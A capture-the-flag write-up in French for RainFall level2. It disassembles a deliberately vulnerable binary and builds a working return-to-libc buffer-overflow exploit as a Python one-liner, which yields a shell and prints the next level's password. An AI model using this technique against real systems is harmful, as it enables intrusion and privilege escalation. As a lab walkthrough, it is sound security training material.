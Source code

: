 On se connecte sur le level2, ou se trouve un **binaire** <code>level2</code>.

On cherche a savoir ce que fait ce binaire:
```gdb
> gdb level2 -q
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.
(gdb) > disas main
Dump of assembler code for function main:
   0x0804853f <+0>:     push   %ebp
   0x08048540 <+1>:     mov    %esp,%ebp
   0x08048542 <+3>:     and    $0xfffffff0,%esp
   0x08048545 <+6>:     call   0x80484d4 <p>
   0x0804854a <+11>:    leave
   0x0804854b <+12>:    ret
End of assembler dump.
> disas p
Dump of assembler code for function p:
   0x080484d4 <+0>:     push   %ebp
   0x080484d5 <+1>:     mov    %esp,%ebp
   0x080484d7 <+3>:     sub    $0x68,%esp
   0x080484da <+6>:     mov    0x8049860,%eax
   0x080484df <+11>:    mov    %eax,(%esp)
   0x080484e2 <+14>:    call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:    lea    -0x4c(%ebp),%eax
   0x080484ea <+22>:    mov    %eax,(%esp)
   0x080484ed <+25>:    call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:    mov    0x4(%ebp),%eax
   0x080484f5 <+33>:    mov    %eax,-0xc(%ebp)
   0x080484f8 <+36>:    mov    -0xc(%ebp),%eax
   0x080484fb <+39>:    and    $0xb0000000,%eax
   0x08048500 <+44>:    cmp    $0xb0000000,%eax
   0x08048505 <+49>:    jne    0x8048527 <p+83>
   0x08048507 <+51>:    mov    $0x8048620,%eax
   0x0804850c <+56>:    mov    -0xc(%ebp),%edx
   0x0804850f <+59>:    mov    %edx,0x4(%esp)
   0x08048513 <+63>:    mov    %eax,(%esp)
   0x08048516 <+66>:    call   0x80483a0 <printf@plt>
   0x0804851b <+71>:    movl   $0x1,(%esp)
   0x08048522 <+78>:    call   0x80483d0 <_exit@plt>
   0x08048527 <+83>:    lea    -0x4c(%ebp),%eax
   0x0804852a <+86>:    mov    %eax,(%esp)
   0x0804852d <+89>:    call   0x80483f0 <puts@plt>
   0x08048532 <+94>:    lea    -0x4c(%ebp),%eax
   0x08048535 <+97>:    mov    %eax,(%esp)
   0x08048538 <+100>:   call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:   leave
   0x0804853e <+106>:   ret
End of assembler dump.
```

En traduisant le programme (dans **source.c**) on se rend compte de l'utilisation de la fonction **gets** (vulnerable) mais aussi d' une restriction sur l'adresse de retour sur la stack:
<pre><code>if (0xb0000000 == (address & 0xb0000000))
</code></pre>
ou
```gdb
   0x080484fb <+39>:    and    $0xb0000000,%eax
   0x08048500 <+44>:    cmp    $0xb0000000,%eax
   0x08048505 <+49>:    jne    0x8048527 <p+83>
```

Nous allons donc faire un **buffer overflow** avec **rettolibc**, et nous allons utliser un **RET** afin de bypasser la restriction.

On calcul l'**offset** qui va nous permettre de faire le **buffer overflow**:
```gdb
> gdb -q level2
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.
(gdb) > b *p+30 # Adresse juste apres le gets
(gdb) > run
Starting program: /home/user/level2/level2
AAAAAAAAAAAAA

Breakpoint 1, 0x080484f2 in p ()
> (gdb) x/10x $eax
0xbffff6bc:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff6cc:     0xb7fd0f00      0x08048550      0x08049828      0x00000001
0xbffff6dc:     0x08048381      0xb7fd13e4

> (gdb) i f
Stack level 0, frame at 0xbffff710:
 eip = 0x80484f2 in p; saved eip 0x804854a
 called by frame at 0xbffff720
 Arglist at 0xbffff708, args:
 Locals at 0xbffff708, Previous frame's sp is 0xbffff710
 Saved registers:
  ebp at 0xbffff708, eip at 0xbffff70c
 
> (gdb) p 0xbffff70c - 0xbffff6bc
$1 = 80

> p *system
$3 = {<text variable, no debug info>} 0xb7e6b060 <system>
```
> OFFSET : 80
> SYSTEM: <code>0xb7e6b060</code>
> RET: <code>0x0804853e</code>
> EXIT: <code>0xb7e5ebe0</code>



Pour récupéré l'adresse de /bin/sh, on écrit un petit programme en C dans /tmp.

```bash
> touch /tmp/getsh.c
> echo "#include <stdio.h>
#include <stdlib.h>
int main(){ printf(\"SHELL= %p\n\", getenv(\"SHELL\")); return 0; }" > /tmp/getsh.c
> cd /tmp
> gcc getsh.c
> ./a.out
SHELL= 0xbffff945
```

On change l'environement du shell pour passer sur **/bin/sh** car **bash** garde les privilèges de l'utilisateur qui l'invoque.
On execute ensuite le programme avec notre buffer overflow suivi d'une addresse de ret, d'une addresse système, de l'addresse d'un exit et de l'addresse du **/bin/sh**.
Si l'addresse est légèrement décaler (in/sh par exemple), il suffit de modifier légèrement l'addresse pour obtenir **/bin/sh**.

```bash
> SHELL=/bin/sh
level2@RainFall:~$ (python -c "print 'A' * 80 + '\x3e\x85\x04\x08' + '\x60\xb0\xe6\xb7' + '\xe0\xeb\xe5\xb7'+ '\x45\xf9\xff\xbf'"; cat) | ./level2
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA>AAAAAAAAAAAA>`E
sh: 1: in/sh: Permission denied
^C`
level2@RainFall:~$ (python -c "print 'A' * 80 + '\x3e\x85\x04\x08' + '\x60\xb0\xe6\xb7' + '\xe0\xeb\xe5\xb7'+ '\x43\xf9\xff\xbf'"; cat) | ./level2
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA>AAAAAAAAAAAA>`C`
cd ../level3 && cat .pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

For download :
<pre><code>scp -P4242 level2@IP:level2 .</code></pre>
> Password : 53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
